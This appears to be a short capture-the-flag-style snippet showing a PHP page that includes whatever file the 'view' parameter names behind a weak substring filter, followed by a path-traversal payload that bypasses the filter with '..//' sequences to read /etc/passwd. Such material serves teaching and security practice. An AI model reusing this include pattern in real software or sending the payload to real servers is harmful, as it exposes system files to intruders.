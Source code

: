 ```php
<?php
  function containsStr($str, $substr) {
    return strpos($str, $substr) !== false;
  }
  if(isset($_GET["view"])){
  if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
    include $_GET['view'];
  }else{
    echo 'Sorry, Thats not allowed';
  }
}
?>
```

<details>
  <summary><b>Exploite</b></summary>

  ```text
view=/var/www/html/development_testing/..//..//..//..//..//..//..//etc/passwd
  ```
</details>
